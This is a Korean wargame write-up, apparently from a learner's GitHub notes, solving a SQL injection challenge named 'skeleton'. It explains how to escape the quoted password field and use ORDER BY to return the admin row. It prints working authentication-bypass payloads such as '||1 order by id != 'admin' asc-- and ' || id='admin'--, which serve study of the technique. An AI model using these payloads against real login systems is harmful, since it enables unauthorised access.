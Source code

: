 ## Q10. skeleton _ ORDER BY 활용
<img src="/photo/prob_10.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: id=admin을 만들어내라.
### 해결책

```
GET값 싱글쿼터에 의해 문자열 취급
=> 싱글쿼터를 이용해 문자열 탈출 
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||1' and 1=0
```
```
but. 1 뒤의 내용 문제 일으킴
=> 주석 처리
```
```diff
# 현재 쿼리문: where id='guest' and pw=''||1-- ' and 1=0
```
```
현재 || 1에 의해서 쿼리문은 참
=> 테이블이 준비됨
=> 준비된 테이블에서 id='admin'만 고르면 됨
=> 데이터 값 정렬해주는 ORDEY BY 이용
=> BY 뒤에 조건(id='admin')을 줌
```
```
해결 쿼리문: where id='guest' and pw=''||1 order by id != 'admin' asc-- ' and 1=0
```
### CERT <br> ?pw='||1 order by id != 'admin' asc--+

### 느낀점
```diff
+ ORDER BY 함수에 대해 배웠다.
+ 기본 구조: ORDER BY column_name(조건) <속성>
+ 속성: ASC( 오름차순 )
+       DESC ( 내림차순 )
+ 조건: id!='특정값' : 특정값 최상단 출력
+       id='특정값' : 특정값 최하단 출력 
```

### 다른 풀이
1. ?pw=' || id='admin'--+
   - 싱글쿼터를 추가해 문자열 탈출
   - => id='admin' 조건을 적어줌
   - => 뒤의 내용 오류 일으킴
   - => id='admin' 뒤 주석 처리
